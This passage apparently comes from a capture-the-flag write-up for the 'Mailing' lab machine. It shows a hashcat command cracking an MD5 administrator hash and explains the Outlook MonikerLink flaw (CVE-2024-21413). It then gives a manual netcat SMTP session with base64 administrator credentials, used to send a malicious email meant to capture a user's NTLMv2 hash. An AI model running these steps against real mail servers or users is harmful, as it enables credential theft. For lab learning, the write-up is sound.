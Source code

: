 ![Untitled2](https://github.com/user-attachments/assets/4858157d-e11d-4218-bae8-94f71e957283)

Crack the MD5 administrator hash (module 0).
```markdown
> hashcat -m 0 -a 0 -d 1 hash.txt .\rockyou.txt
```
You surely have heard about this "MonikerLink" critical vulnerability discovered this year affecting Outlook (https://www.cvedetails.com/cve/cve-2024-21413/). Basically, Outlook does not manage correctly links to SMB shared files in the body of HTML messages when a "!" character is inserted in the middle of the link. Details on the vulnerability here: https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/.<br>
<br>
Normally, Outlook should block these SMB requests for security reasons since NTLMv2 hashes can be captured, but the insertion of the exclamation mark "!" changes Outlook's behavior.<br>
<br>
Let's exploit this by sending a malicious email to `maya@mailing.htb`. One option is to do it using one of the multiple POCs linked to this vulnerability in Github (just follow the instructions provided by the exploit creator).<br>
<br>
However, since we already have administrator credentials in the mail server, in this write up we will exploit it manually, interacting directly with the server via Telnet/Netcat commands. Here more info on how to interact with an SMTP server from command line: https://www.samlogic.net/articles/smtp-commands-reference.htm<br>
<br>
In this case we can use both SMTP or IMAP (secure SMTP) since both ports 25 and 587 are open. In the first option, SMTP (25), information is sent unencrypted, whereas in the second option, IMAP (587), the information is sent encrypted, therefore we need to establish a TLS connection first. The sequence of commands for the SMTP case is the following.<br>

Connect to the server using Netcat.
```markdown
> nc -nvC $target 25
(UNKNOWN) [10.10.11.14] 25 (smtp) open
```
Identify yourself in the server.
```markdown
ehlo host
250-mailing.htb
250-SIZE 20480000
250-AUTH LOGIN PLAIN
250 HELP
```
Log in using administrator credentials, this has to be done in base64 encoding.
```markdown
auth login
334 VXNlcm5hbWU6
YWRtaW5pc3RyYXRvckBtYWlsaW5nLmh0Yg==
334 UGFzc3dvcmQ6
aG9tZW5ldHdvcmtpbmdhZG1pbmlzdHJhdG9y
235 authenticated.
```
Select the sender and the receipt.
```markdown
mail from:administrator@mailing.htb
250 OK
rcpt to:maya@mailing.htb
250 OK
```
Now you can send the body of the email, it will have a plain text part and an HTML part, containing the malicious link. I found here how to create HTML emails using SMTP command line: https://mailtrap.io/blog/telnet-send-email/<br>
